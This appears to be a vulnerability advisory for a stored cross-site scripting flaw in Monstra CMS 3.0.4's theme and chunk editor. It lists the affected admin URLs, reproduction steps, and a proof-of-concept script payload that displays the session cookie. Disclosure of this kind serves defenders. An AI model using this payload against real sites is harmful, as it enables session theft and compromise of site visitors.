 \> [Description] 
A cross-site scripting (XSS) vulnerability in Monstra CMS v3.0.4 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Themes parameter at index.php.


> [Vulnerability Type]
> Cross Site Scripting (XSS)

> [Vendor of Product]
> https://github.com/monstra-cms/monstra/
> 
> [Affected Product Code Base]
> monstra - <=3.0.4
-----------------------------------------

> [Attack Vectors]
> 1.Log into the panel.
> 2.

Go to "/admin/index.php?id=themes&action=edit_template&filename=index" 

or "/admin/index.php?id=themes&action=edit_chunk&filename=footer-links" 

or "/admin/index.php?id=themes&action=edit_chunk&filename=footer" 

or "/admin/index.php?id=themes&action=edit_chunk&filename=header"
> 3.Insert payload:

```
"<script>alert(document.cookie)</script>"
```

 into the content
> 4.Click  Save and Exit 
> 5.Click  View Site   -> xss



> [Discoverer]
> OoLs
